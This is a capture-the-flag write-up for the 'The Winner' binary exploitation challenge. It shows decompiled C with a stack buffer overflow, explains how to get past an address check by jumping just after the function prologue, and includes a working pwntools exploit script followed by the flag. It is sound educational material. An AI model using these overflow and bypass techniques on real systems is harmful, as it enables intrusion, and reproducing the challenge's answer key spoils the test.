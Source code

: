 ## 10 - The Winner

### Description

**Solve**: 13/242
**Score**: 76

Wanna be the winner? Solve this.

Download: [https://stdio-2026-public.2600.in.th/10_easy_The_Winner.zip](https://stdio-2026-public.2600.in.th/10_easy_The_Winner.zip)

Author: Jusmistic

 `nc 157.230.193.18 10010`

### Solution
#### Step 1 Analysis

![](https://github.com/nkd3v/STDiO-CTF-2023-Writeup/assets/28519551/e894a9f8-bb11-4480-8d4a-bc0a089ecc62)

First off I started by trying to understand the program behavior, this will make it easier for us to understand when we trying to reverse engineer it, we can see that it just read input and echo out the output

To really know what going on we have to use tool like Ghidra to disassemble and decompile the program, these are the interesting function

```c
void winner(void)
{
  char local_78 [104];
  FILE *local_10;
  
  local_10 = fopen("/home/ctf/flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    perror("Error opening flag file");
    FUN_00401160(0xffffffff);
  }
  fgets(local_78,100,local_10);
  fclose(local_10);
  printf("Congratulations! You found the flag: %s\n",local_78);
  return;
}

undefined8 main(void)
{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("--- PING PONG SHOW ---");
  vuln();
  return 0;
}

void vuln(void)
{
  int iVar1;
  undefined local_88 [124];
  int local_c;
  
  printf("PING: ");
  __isoc99_scanf(&DAT_00402068,local_88);
  for (local_c = 0; local_c < 0xc9; local_c = local_c + 1) {
    iVar1 = memcmp(local_88 + local_c,&winnerAddress,8);
    if (iVar1 == 0) {
      puts("Nice try, but you can\'t use the address of the winner function!");
      FUN_00401160(1);
    }
  }
  printf("PONG: %s",local_88);
  return;
}
```

We can see that the program store the input data in `local_88` which has size of 124 without any input limit, which mean this program is vulnerable to overflow, if we write data beyond what the `local_88` can accept which is 124, data will start to overwrite other memory.

Due to how stack which is the memory region that store local variable is structured, it will first overwrite `iVar1` (4 bytes) then the saved `rbp` (8 bytes) and after that will be the return address (8 bytes)

By overwriting the return address we can redirect the execution of a program to any point we want, in this case the winner function which will print the flag when called

![](https://github.com/nkd3v/STDiO-CTF-2023-Writeup/assets/28519551/7e8b3a6d-3af9-4e8e-aec0-b953331bcb08)

![](https://github.com/nkd3v/STDiO-CTF-2023-Writeup/assets/28519551/00fe84b5-281c-4474-a8d0-bc3ffc0de32a)

In Ghidra, we can see that the `winner` function is located at `0x401256` but it will fail if we try to call it since the program have a check using `memcmp`.

The bypass is actually surprisingly easy, as we don't really have to call the function with its start address for it to work, we can skip a few instructions and it will be working just fine, in this case I skip `ENDBR64; PUSH RBP`, so we will redirect program to `0x40125b` instead

#### Step 2 Crafting Payload

The simplest way to craft an exploit is to use pwntools, for installation guide you can find it here: https://github.com/Gallopsled/pwntools

```python
from pwn import *

io = remote('157.230.193.18', 10010)

payload = b'A'*124 # overwrite string array local_88
payload += b'B'*4  # overwrite int iVar1
payload += b'C'*8  # overwrite saved rbp
payload += p64(0x40125B)

io.sendline(payload)

io.interactive()
```

First we open connection to the server with `io = remote('157.230.193.18', 10010)`, then we pad our payload with dummy characters then we use `p64` to convert our address to bytes which is the format needed for exploit to work properly

```
STDIO23_10{6ba7067210fa6da510cc17e5fd615ef7}
```

